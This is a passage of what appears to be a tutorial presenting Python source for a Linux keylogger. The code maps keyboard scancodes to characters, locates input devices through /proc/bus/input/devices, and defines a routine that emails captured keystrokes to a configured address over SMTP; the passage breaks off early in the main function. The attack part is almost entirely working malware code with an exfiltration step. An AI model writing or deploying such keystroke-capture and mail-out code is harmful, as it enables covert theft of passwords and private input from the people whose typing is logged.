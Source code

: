 **What we do is rather explicit**

- Create a mail server
- Fill in our mail (We consider that we send an email to ourselves)
- Connect to our SMTP server
- Send the string

* * *

###### LET'S WRAP ALL TOGETHER

```python
#!/usr/bin/env python3
# -*-coding:Latin-1 -*

import sys
import re
import struct
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib

qwerty_map = {
    2: "1", 3: "2", 4: "3", 5: "4", 6: "5", 7: "6", 8: "7", 9: "8", 10: "9",
    11: "0", 12: "-", 13: "=", 14: "[BACKSPACE]", 15: "[TAB]", 16: "a", 17: "z",
    18: "e", 19: "r", 20: "t", 21: "y", 22: "u", 23: "i", 24: "o", 25: "p", 26: "^",
    27: "$", 28: "\n", 29: "[CTRL]", 30: "q", 31: "s", 32: "d", 33: "f", 34: "g",
    35: "h", 36: "j", 37: "k", 38: "l", 39: "m", 40: "ù", 41: "*", 42: "[SHIFT]",
    43: "<", 44: "w", 45: "x", 46: "c", 47: "v", 48: "b", 49: "n", 50: ",",
    51: ";", 52: ":", 53: "!", 54: "[SHIFT]", 55: "FN", 56: "ALT", 57: " ", 58: "[CAPSLOCK]",
}

USE_TLS = None
SERVER = None
MAIL = None
BUF_SIZE = None
PASS = None
KEYBOARD = "qwerty"

def sendEmail(message):
    msg = MIMEMultipart()

    password = PASS
    msg['From'] = EMAIL
    msg['To'] = EMAIL
    msg['Subject'] = "Log clavier"

    msg.attach(MIMEText(message, 'plain'))

    server = smtplib.SMTP(SERVER)

    if USE_TLS is True:
        server.starttls()

    server.login(msg['From'], password)
    server.sendmail(msg['From'], msg['To'], msg.as_string())
    server.quit()


def main():
    with open("/proc/bus/input/devices") as f:
        lines = f.readlines()

        pattern = re.compile("Handlers|EV=")
        handlers = list(filter(pattern.search, lines))
```